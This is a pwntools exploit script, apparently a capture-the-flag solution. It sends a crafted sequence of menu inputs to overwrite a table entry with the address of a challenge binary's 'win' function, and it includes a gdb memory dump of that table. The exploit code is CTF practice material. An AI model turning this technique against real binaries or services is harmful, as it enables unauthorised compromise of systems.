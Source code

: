 ```py
context.binary = e
if len(sys.argv) > 1:
    io = remote(host=HOST,port=PORT)
else:
    io = e.process()
    if dbg:
        gdb.attach(io,g_script)

s   = lambda b: io.send(b)
sa  = lambda a,b: io.sendafter(a,b)
sl  = lambda b: io.sendline(b)
sla = lambda a,b: io.sendlineafter(a,b)
r   = lambda : io.recv()
ru  = lambda b:io.recvuntil(b)
rl  = lambda : io.recvline()
pu32= lambda b : u32(b.ljust(4,b"\0"))
pu64= lambda b : u64(b.ljust(8,b"\0"))
hlog= lambda i : print(f"[*]{hex(i)}")
shell = lambda : io.interactive()
payload = b""
def pay64(adr:int):global payload;payload = p64(adr)
def add64(adr:int):global payload;payload+= p64(adr)
def paybyte(data:bytes):global payload;payload = data
def addbyte(data:bytes):global payload;payload+= data

qt_sz = 100009

tmp = input("go??????????????????????????")
sl(str(100022).encode())

tmp = input("go??????????????????????????")
"""
gef> x/4gx 0x04c8860
0x4c8860 <T>:   0x00000000004db6c0      0x00000000004db6cc
0x4c8870 <T+16>:        0x00000000004db6d0      0x0000000000000000
"""
win = 0x0401427
sl(b"4")
sleep(0.1)
sl(b"4")
sleep(0.1)
sl(b"4")
sleep(0.1)
sl(b"4")
sleep(0.1)
sl(b"4")
sleep(0.1)
sl(b"4")
sleep(0.1)
sl(b"4")
sleep(0.1)
paybyte(f"1\n4199463".encode())
sl(payload)
paybyte(f"1\n0".encode())
sl(payload)
paybyte(f"1\n4199463".encode())
sl(payload)
paybyte(f"4".encode())
sl(payload)
paybyte(f"1\n4199463".encode())
sl(payload)
paybyte(f"4".encode())
sl(payload)
```